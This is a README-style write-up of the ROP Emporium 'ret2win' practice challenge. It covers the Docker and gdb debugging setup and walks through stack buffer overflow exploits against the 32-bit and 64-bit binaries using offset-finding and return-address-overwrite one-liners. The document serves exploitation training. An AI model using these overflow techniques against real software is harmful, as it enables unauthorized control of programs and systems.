 # ret2win

## Docker
### Debugging
Start docker using the `SYS_TRACE` capability:
```
$ docker run -it --name ret2win -v $(PWD):/ret2win --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -p2000:2000 ubuntu
```

Set the `ulimit` to get core dumps:
```
# ulimit -c unlimited
```

#### Feed binary stdin from inside gdb:
First replace `/bin/sh` alias from `/bin/dash` to `/bin/bash`:
```
# dpkg-reconfigure dash
```

Then, feed stdin from inside gdb:
```
gdb> run <<< $(python -c "print '\x41'*40")
```

 * https://dustri.org/b/feed-binary-stdin-from-inside-gdb.html
 * https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection

#### Remote Debugging
```
# gdbserver localhost:2000 ret2win
```

### Packages
```
# apt install unzip radare2 gdb gdbserver libc6-i386 python python-pip
# pip install pwntools
```

## Exploitation

### 32-bit executable
 1. Pipe the output of 50 chars of metasploit pattern to `stdin`:
```
# python -c 'from pwn import *; print cyclic_metasploit(50)' | ./ret2win32
Segmentation fault (core dumped)
# python -c 'from pwn import *; print cyclic_metasploit_find(0x35624134)'
44
```

 2. Locate address of `ret2win`:
```
# nm ret2win32 | grep ret2win
08048659 t ret2win
```

 3. Pwn the shit out of it:
```
# python -c 'print "A"*44 + "\x59\x86\x04\x08"' | ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

### 64-bit executable
 1. Pipe the output of 50 chars of metasploit pattern to `stdin`:
```
# python -c 'from pwn import *; print cyclic_metasploit(50)' | ./ret2win
Segmentation fault (core dumped)
# python -c 'from pwn import *; print cyclic_metasploit_find(0x3562413462413362)
40
```

 2. Locate address of `ret2win`:
```
# rabin2 -qs ret2win | grep ret2win
0x00400811 32 ret2win```
```

 3. pwn the shit out of it:
```
# python -c "print 'A'*40 + '\x11\x08\x40\x00\x00\x00\x00\x00'" | ./ret2win
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Segmentation fault (core dumped)
```

Unfortunately, this doesn't work for some unknown reason :-/

Workaround: jump after printf, directly to the system() call:
```
# python -c 'print("A" * 40  + "\x24\x08\x40\x00\x00\x00\x00\x00")' | ./ret2win
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> ROPE{a_placeholder_32byte_flag!}
```
